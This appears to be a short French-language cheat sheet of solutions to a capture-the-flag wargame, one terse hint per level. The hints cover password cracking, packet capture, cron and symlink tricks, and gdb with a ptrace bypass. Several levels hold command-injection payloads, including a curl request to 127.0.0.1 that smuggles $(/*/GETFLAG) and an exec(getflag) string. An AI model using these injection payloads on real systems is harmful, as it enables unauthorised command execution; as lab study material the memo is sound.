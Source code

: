 ## Memento

### Level00:

Code cesar

### Leve01:

John the Ripper

### Level02:

wireshark

### Level03:

echo

### Level04:

Injection de code avec curl 'ip:4747ltra'?x


### Level05:

cron

### Level06:

Injection de code '[x ${${exec(getflag)}}]' >/tmp/coucou

### Level07:

export LOGNAME

### Level08:

t0ken

### Level09:

aaaa -> abcd 
python decode.py $(cat token)

### Level10

server.py & liens symboliques

### Level11

nc $(getflag) |wall

### Level12:

'getflag | wall' > /tmp/GETFLAG
curl '127.0.0.1:4646?x=$(/*/GETFLAG)'

### Level13:

gdb getuid()

### Level14

suppression de ptrace (bypassing ptrace)
idem Level13
